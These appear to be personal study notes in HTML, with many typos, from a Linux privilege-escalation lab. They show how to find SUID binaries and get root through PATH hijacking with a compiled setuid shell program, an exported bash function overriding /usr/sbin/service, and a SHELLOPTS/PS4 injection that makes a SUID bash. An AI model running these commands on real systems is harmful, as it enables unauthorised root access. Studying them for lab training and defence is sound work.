

<!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Envionrmental variables</title>
</head><body>Escalation via envionrmental variables. 
 
Enviornmental veariables are system wide and inherrited by all process and shells 
 
Look for Environmental varaibles with 
 
<b>env</b> 
 
PATH is a very standard env 
 
Maliciously we want to modify an environmental variable taking advantage of a file with a SUID bit set 
 
Start by using the standard permission find command 
 
<b>find / -type f -perm -04000 -ls 2&gt;/dev/null</b> 
 
outputs sbit set binaries. 
 
 
 
 
Find a potential with s bits set... run it and check for behaviour. 
 
 
 
 
 
you can get more info running strings 
 
strings &lt;file&gt; 
 
 
***Screen shot example is for different type of file requiring differnt payload. In this example the strings identified itss calling a direct path.. so to exploit you need to create a malicious function. 
 
 
 
 
 
TLDR of attack 
 
find an explopitable file... the system would check the environemtnal variable.. Potetnially PATH, when its run. Insert a malicious file and modify PATH to point to your malicious file.. 
 
Create a malicious 1 liner 
 
 
syntax &gt; <b>echo 'int main() {setgid(0); setuid(0); system(&quot;/bin/bash&quot;); return }' &gt; /tmp/service.c</b> 
 
No compile the c code 
 
<b>gcc /tmp/service.c -o /tmp/service</b> 
 
Now we need to modify path to also point to our malicious file location 
 
<b>export PATH=/tmp:$PATH</b> 
 
Printing path before and then after this command will show that /tmp is now added and called first 
 
From here running the vulnarble SUID file will grant root. 
 
 
BIG NOTE. If its just calling the serivce. the malicious c code wtih path modification is the easier win.  
If its calling a complete path then use the additonal method in the screen shots 
 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: find / -type f -perm -04000 -ls 2&gt;/dev/null 
2. From the output, make note of all the SUID binaries. 
3. In command prompt type: strings /usr/local/bin/suid-env 
4. From the output, notice the functions used by the binary. 
 
Exploitation 
 
Linux VM 
 
1. In command prompt type: 
echo 'int main() { setgid(0); setuid(0); system(&quot;/bin/bash&quot;); return 0; }' &gt; /tmp/service.c 
2. In command prompt type: gcc /tmp/service.c -o /tmp/service 
3. In command prompt type: export PATH=/tmp:$PATH 
4. In command prompt type: /usr/local/bin/suid-env 
5. In command prompt type: id 
 
 
 
 
 
Detection 
 
Linux VM 
 
1. In command prompt type: find / -type f -perm -04000 -ls 2&gt;/dev/null 
2. From the output, make note of all the SUID binaries. 
3. In command prompt type: strings /usr/local/bin/suid-env2 
4. From the output, notice the functions used by the binary. 
 
Exploitation Method #1 
 
Linux VM 
 
1. In command prompt type: 
function /usr/sbin/service() { cp /bin/bash /tmp &amp;&amp; chmod +s /tmp/bash &amp;&amp; /tmp/bash -p; } 
2. In command prompt type: 
export -f /usr/sbin/service 
3. In command prompt type: /usr/local/bin/suid-env2 
 
Exploitation Method #2 
 
Linux VM 
 
1. In command prompt type: 
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp &amp;&amp; chown root.root /tmp/bash &amp;&amp; chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p' 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
</body></html>